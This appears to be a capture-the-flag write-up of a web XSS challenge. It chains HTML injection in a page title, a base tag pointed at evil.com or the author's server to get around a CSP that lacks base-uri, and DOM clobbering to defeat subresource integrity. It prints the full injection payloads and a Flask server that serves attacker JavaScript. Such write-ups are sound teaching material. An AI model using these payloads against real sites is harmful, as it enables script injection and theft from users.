 ```yaml
---
layout: post
title:  "Wacky XSS challenge writeup"
description: In this writeup I will show my solution for Wacky XSS challenge.
---
```

Hi, here is my writeup of bugpoc's XSS challenge so we had a URL wacky.buggywebsite.com which shows this page.


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-20-1024x614.png)


Here we had a textbox where we could enter text and it shows text with some fancy style but we were not allowed to enter some characters such as <, >, &, %, *


we had two JS file one was script.js and another was frame-analytics.js. In script.js we had


```javascript
var isChrome = /Chrome/.test(navigator.userAgent) && /Google Inc/.test(navigator.vendor);
	if (!isChrome){
		document.body.innerHTML = `
			<h1>Website Only Available in Chrome</h1>
			<p style="text-align:center"> Please visit <a href="https://www.google.com/chrome/">https://www.google.com/chrome/</a> to download Google Chrome if you would like to visit this website</p>.
		`;
	}
	
document.getElementById("txt").onkeyup = function(){
	this.value = this.value.replace(/[&*<>%]/g, '');
};


document.getElementById('btn').onclick = function(){
	val = document.getElementById('txt').value;
	document.getElementById('theIframe').src = '/frame.html?param='+val;
};

```


due to the replace function in above some special characters were replacing but here we could see that we have another file frame.html with a parameter so I opened it and I saw that value of parameter was reflecting in the title of webpage


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-21-1024x614.png)


and also it was not filter means we have html injection so after closing the title tag we could execute HTML code. Now here we could not execute JavaScript directly because their was CSP (Content Security policy) so I started analyzing CSP and found that base-uri was missing.


*What can attacker do when base-uri is missing from CSP and we have a html injection?*


*Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain.*


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Untitled-1-1024x576.png)


I hope you got the use of base tag from above image. Lets confirm this in challenge so I added base tag in parameter


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-23-1-1024x614.png)


Here movie.pm4 was loading from evil.com. Now we had to load JavaScript file from our server and frame.html should be in iframe because if its not in iframe then frame-analytics.js will not load so I created payload to load JS file from another domain


```
Payload : </title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=aman</title><base href=//evil.com>' id='theIframe' name=iframe></iframe></body></html><!--
```


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-24-1024x614.png)


and We were able to load frame-analytics.js from another domain. Now I setup my flask server to load my JavaScript code.


```python
from flask import Flask, request, send_from_directory, Response
from flask_cors import CORS, cross_origin


app = Flask(__name__, static_url_path='')
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

@app.route("/files/<path:path>")
@cross_origin()
def exploit(path):
    jscode = """
    alert(document.domain);
        """;
    return Response(jscode, mimetype='application/javascript')

if __name__ == '__main__':
    app.run(debug=True)
```


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-25-768x461.png)


Now the response in console was different and It was giving error because of Subresource Integrity in script tag.


***Subresource Integrity (SRI)** is a security feature that enables browsers to verify that resources they fetch (for example, from a CDN) are delivered without unexpected manipulation. It works by allowing you to provide a cryptographic hash that a fetched resource must match.*


Its means we had to change the integrity attribute’s value also to load our script so I started looking for source code and found this.


```javascript
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}


// securely add the analytics code into iframe
script = document.createElement('script');
script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
script.setAttribute('crossorigin', 'anonymous');
analyticsFrame.contentDocument.body.appendChild(script);
```


If you don’t understand this then let me explain. This code is checking If value of window.fileIntegrity is assigned then use that value to generate script tag with integrity’s value window.fileIntegrity.value and fileIntegrity was a global variable.


so after this we had to use Dom Clobbering technique to control the global variable fileIntegrity


***DOM clobbering** is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.*


It was easy to bypass this SRI using Dom Clobbering so I used anchor tag with id and name to control integrity’s value.


```
paylaod : <a id=fileIntegrity><a id=fileIntegrity name=value href=theamanrawat>
```


this payload will defined the value of window.fileintegrity and we were able to load our JavaScript code.


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-27-1024x614.png)


Now alert was blocked because of sandbox in iframe so we had to bypass this and bypassing this sandbox was very simple because we can execute JavaScript function such as createElement(), console.log() and etc..


To bypass this I created script tag outside the sandbox iframe and my final payload was this


```
</title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=aman</title><a id=fileIntegrity><a id=fileIntegrity name=value href=theamanrawat><base href=//myserver.com>' id='theIframe' name=iframe></iframe></body></html><!--
```


I sent this payload and the alert was executed :)


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-17-edited.png)


# Now its time to create working PoC on bugpoc.


I used **mock endpoint builder** for JavaScript code


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-29-edited.png)


and then **Flexible Redirector** for redirecting all path to mock endpoint.


Now I created front end poc to run the exploit.


![image](https://gyanihackers.com/blog/wp-content/uploads/2020/11/Screenshot-31-1024x614.png)


That’s it for this writeup. You can check the my PoC on https://bugpoc.com/poc#bp-uvrG5pXO & password : `SHYwasp53`


Thanks for reading.